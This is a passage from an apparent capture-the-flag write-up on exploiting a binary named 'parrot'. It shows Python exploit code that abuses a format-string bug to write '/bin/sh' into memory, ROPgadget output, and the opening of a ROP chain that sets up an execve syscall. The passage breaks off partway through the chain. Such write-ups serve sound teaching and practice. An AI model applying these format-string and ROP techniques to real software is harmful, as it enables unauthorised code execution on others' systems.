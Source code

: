 ![](data.png)

```py
writable_data = 0x4000 + binary_base

write_bin_payload = fmt_str.write(writable_data, b"/bin")
fmt_str.execute_writes()
write_sh_payload = fmt_str.write(writable_data + 4, b"/sh\0")
fmt_str.execute_writes()
```

## Find gadgets and write a ropchain

Let's run `ROPgadget` to look for useful gadgets.

```
$ ROPgadget --binary ./parrot
Gadgets information
============================================================
[...]
0x000000000000124b : pop rdi ; ret
0x00000000000011df : pop rdx ; pop rax ; ret
0x0000000000001249 : pop rsi ; pop r15 ; ret
[...]
0x00000000000011dd : syscall
[...]

Unique gadgets found: 88
```

Perfect, we have every gadget needed to craft an `execve` syscall! Let's just create our ropchain and use the format string to write it on the return address of the function. The offset on the stack of this return address is once again just found using gdb.

```py
saved_rip = stack_leak - 0x2D1

syscall = 0x11dd + binary_base
pop_rdi = 0x124b + binary_base
pop_rsi_r15 = 0x1249 + binary_base
pop_rdx_rax = 0x11df + binary_base
pop_rax = 0x11e0 + binary_base

execve = 0x3B
argv = 0
envp = 0

rop_chain = p64(pop_rdi) + p64(writable_data)
rop_chain += p64(pop_rsi_r15) + p64(argv) + p64(0)
```